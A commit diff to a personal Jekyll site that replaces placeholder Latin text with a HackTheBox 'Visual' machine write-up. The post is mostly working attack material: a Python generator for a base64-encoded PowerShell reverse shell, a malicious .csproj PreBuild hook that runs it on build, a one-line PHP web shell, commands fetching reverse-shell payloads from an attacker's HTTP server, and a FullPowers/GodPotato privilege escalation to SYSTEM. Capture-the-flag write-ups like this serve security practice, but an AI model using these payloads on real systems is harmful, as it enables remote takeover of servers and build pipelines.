

Before and after one commit to 0x4rs3nic/0x4rs3nic.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 893 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
Update 2018-04-21-It-i-never-too-late-to-be-what-you-might-have-been.markdown

````diff
--- a/_posts/2018-04-21-It-i-never-too-late-to-be-what-you-might-have-been.markdown
+++ b/_posts/2018-04-21-It-i-never-too-late-to-be-what-you-might-have-been.markdown
@@ -1,62 +1,189 @@
 ---
 layout: post
-title:  It is never too late to be what you might have been
-description: Sin tantum modo ad indicia veteris memoriae cognoscenda, curiosorum. Haec et tu ita posuisti, et verba vestra sunt. Idemne potest esse dies...
+title:  Visual htb
+description:
 date:   2018-04-21 15:01:35 +0300
 image:  '/images/20.jpg'
-tags:   [Lifestyle, Rest, Nature]
+tags:   [Writeup, HTB]
 ---
-Sin tantum modo ad indicia veteris memoriae cognoscenda, curiosorum. Haec et tu ita posuisti, et verba vestra sunt. Idemne potest esse dies saepius, qui semel fuit? Ampulla enim sit necne sit, quis non iure optimo irrideatur, si laboret? Ego vero volo in virtute vim esse quam maximam; Serpere anguiculos, nare anaticulas, evolare merulas, cornibus uti videmus boves, nepas aculeis. Conferam tecum, quam cuique verso rem subicias. Si longus, levis ampulla enim sit necne vel omnia vel partes genere plurima et maxima.
-
-> The longer I live, the more I realize that I am never wrong about anything, and that all the pains I have so humbly taken to verify my notions have only wasted my time!
->
-> <cite>George Bernard Shaw</cite>
-
-In qua quid est boni praeter summam voluptatem, et eam sempiternam? Cur post Tarentum ad Archytam? Qua ex cognitione facilior facta est investigatio rerum occultissimarum. Negat enim tenuissimo victu, id est contemptissimis escis et potionibus, minorem voluptatem percipi quam rebus exquisitissimis ad epulandum. Non enim iam stirpis bonum quaeret, sed animalis. Qui autem esse poteris, nisi te amor ipse ceperit? Sic igitur in homine perfectio ista in eo potissimum, quod est optimum, id est in virtute, laudatur. Natura sic ab iis investigata est, ut nulla pars caelo, mari, terra, ut poëtice loquar, praetermissa sit; Eadem nunc mea adversum te oratio est. Mihi quidem Homerus huius modi quiddam vidisse videatur in iis, quae de Sirenum cantibus finxerit potionibus.
-
-![Fresh vegetables]({{site.baseurl}}/images/615.jpg)
-*Fresh vegetables / [Unsplash](https://unsplash.com/)*
-
-Sic igitur in homine perfectio ista in eo potissimum, quod est optimum, id est in virtute, laudatur. Natura sic ab iis investigata est, ut nulla pars caelo, mari, terra, ut poëtice loquar, praetermissa sit. Eadem nunc mea adversum te oratio est. Mihi quidem Homerus huius modi quiddam vidisse videatur in iis, quae de Sirenum cantibus finxerit. Neque enim disputari sine reprehensione nec cum iracundia aut pertinacia recte disputari potest. An, partus ancillae sitne in fructu habendus, disseretur inter principes civitatis. Put in geometria, prima si dederis, danda sunt omnia. Longum est enim ad omnia respondere.
-
-{% raw %}
-<iframe src="https://www.youtube.com/embed/CB9Enh6yP0w" frameborder="0" allowfullscreen></iframe>
-{% endraw %}
 
 
-Qua ex cognitione facilior facta est investigatio rerum occultissimarum. Negat enim tenuissimo victu, id est contemptissimis escis et potionibus, minorem voluptatem percipi quam rebus exquisitissimis ad epulandum. Non enim iam stirpis bonum quaeret, sed animalis. Qui autem esse poteris, nisi te amor ipse ceperit? Sic igitur in homine perfectio ista in eo potissimum, quod est optimum, id est in virtute, laudatur disputari sine.
+## Nmap
+```
+ sudo nmap -p- 10.10.11.234  -T4 -A
+ Nmap scan report for 10.10.11.234
+Host is up (0.16s latency).
+Not shown: 999 filtered ports
+PORT   STATE SERVICE VERSION
+80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
+|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
+|_http-title: Visual - Revolutionizing Visual Studio Builds
+```
+Add `visual.htb` domain to our `/etc/hosts` file.
+## Web Enumeration
+We can upload our git repo here and it'll compile to make an exe or dll file.
+Let's make a project
+```
+mkdir b17
+dotnet new console -n b17 -f net6.0
+dotnet new sln -n b17
+dotnet s In b17.sln add b17/b17.csproj
+```
+Now creating a git repo for this project
+```
+git init
+git add .
+git commit -m "update"
+git update-server-info
+```
+**Folder Structure**
+```
+├── b17
+│   ├── b17.csproj
+│   ├── obj
+│   │   ├── b17.csproj.nuget.dgspec.json
+│   │   ├── b17.csproj.nuget.g.props
+│   │   ├── b17.csproj.nuget.g.targets
+│   │   ├── project.assets.json
+│   │   └── project.nuget.cache
+│   └── Program.cs
+└── b17.sln
+```
+Now we will upload it
 
-Sin tantum modo ad indicia veteris memoriae cognoscenda, curiosorum. Haec et tu ita posuisti, et verba vestra sunt. Idemne potest esse dies saepius, qui semel fuit? Ampulla enim sit necne sit, quis non iure optimo irrideatur, si laboret? Ego vero volo in virtute vim esse quam maximam; Serpere anguiculos, nare anaticulas, evolare merulas, cornibus uti videmus boves, nepas aculeis. Archytam? Qua ex cognitione facilior facta est investiga.
+```
+python3 -m http.server 80
+```
 
+![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/mwmulbi4b4czpaubfsh7.jpg)
+and the website does it works
 
-  {% raw %}
-    <div class="gallery-box">
-      <div class="gallery">
-        ![Fresh vegetables]({{site.baseurl}}/images/615.jpg)
-        <img src="/images/901.jpg">
-        <img src="/images/509.jpg">
-        <img src="/images/511.jpg">
-        <img src="/images/520.jpg">
-        <img src="/images/516.jpg">
-        <img src="/images/517.jpg">
-        <img src="/images/519.jpg">
-        <img src="/images/521.jpg">
-      </div>
-      <em>Gallery / <a href="https://unsplash.com/" target="_blank">Unsplash</a></em>
-    </div>
-  {% endraw %}
+![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/xra4v09ov3ufvsitcg6x.jpg)
+## Gaining access
+from here we can try to get a reverse shell using the csproj file
+**Generate Reverse Shell**
+```
+#!/usr/bin/env python3
+#
+# generate reverse powershell cmdline with base64 encoded args
+#
 
+import sys
+import base64
 
+def help():
+    print("USAGE: %s IP PORT" % sys.argv[0])
+    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
+    exit()
 
-{% highlight js %}
-  $('.top').click(function () {
-    $('html, body').stop().animate({ scrollTop: 0 }, 'slow', 'swing');
-  });
-  $(window).scroll(function () {
-    if ($(this).scrollTop() > $(window).height()) {
-      $('.top').addClass("top-active");
-    } else {
-      $('.top').removeClass("top-active");
-    };
-  });
-{% endhighlight %}
+try:
+    (ip, port) = (sys.argv[1], int(sys.argv[2]))
+except:
+    help()
+
+# payload from Nikhil Mittal @samratashok
+# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
+
+payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
+payload = payload % (ip, port)
+
+cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
+
+print(cmdline)
+```
+```
+python <filename>.py <IP> 9009
+```
+```
+<Project Sdk="Microsoft.NET.Sdk">
+
+  <PropertyGroup>
+    <OutputType>Exe</OutputType>
+    <TargetFramework>net6.0</TargetFramework>
+    <ImplicitUsings>enable</ImplicitUsings>
+    <Nullable>enable</Nullable>
+  </PropertyGroup>
+
+  <Target Name="PreBuild" BeforeTargets="BeforeBuild">
+    <Exec Command="<Output of filename.py>" />
+  </Target>
+
+</Project>
+
+```
+updating the git repo again
+```
+git add b17/b17.csproj
+git commit -m "csproj update"
+git update-server-info
+python3 -m http.server 80
+```
+Setup Listener
+```
+nc -nvlp 9009
+```
+and we got a shell
+```
+type C:\\Users\\enox\\Desktop\\root.txt
+```
+## Lateral Movement to nt authority\local service
+**Attacker**
+```
+echo -n "<?php system($_GET['cmd']);?>" | cat > b1.php
+python -m http.server 80
+```
+**Victim**
+```
+Invoke-WebRequest -Uri http://your-ip:80/b1.php -OutFile C:\\xampp\\htdocs\\b1.php
+```
+
+![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ziwsvg6gwakaos4cqjjv.jpg)
+## Privilege escalation
+```
+wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
+```
+**Edit ip and port**
+
+![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/zdn0jrcacdbd68itwtqy.png)
+**Attacker**
+```
+python3 -m http.server 80
+```
+**Victim**
+```
+Invoke-WebRequest -Uri http://your-ip:80/php_reverse_shell.php -OutFile C:\\xampp\\htdocs\\php_reverse_shell.php
+```
+Setup **Listner**
+```
+ncat -lvnp 9008
+```
+Go to http://visual.htb/php_reverse_shell.php
+**Boom we got reverse shell as nt authority\local service**
+As the user is local service, we can restore the default privileges of the account using [FullPowers](https://github.com/itm4n/FullPowers)
+**Attacker**
+```
+wget https://github.com/itm4n/FullPowers/releases/download/v0.1/FullPowers.exe
+python -m http.server 80
+```
+**Victim**
+```
+Invoke-WebRequest -Uri http://your-ip:80/FullPowers.exe -OutFile C:\\xampp\\htdocs\\FullPowers.exe
+.\FullPowers.exe
+whoami /priv
+```
+**Boom**
+
+![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/pbu71ath05529oi0bxni.png)
+then simply using [GodPotato ](https://github.com/BeichenDream/GodPotato)got nt authority\system
+**Attacker**
+```
+wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe -O  GP4.exe
+python -m http.server 80
+```
+**Victim**
+```
+Invoke-WebRequest -Uri http://your-ip:80/GP4.exe -OutFile C:\\xampp\\htdocs\\GP4.exe
+.\GP4 -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
+```
+Go root.....
+Hurray!!!!!!!!!!!!!!!
````
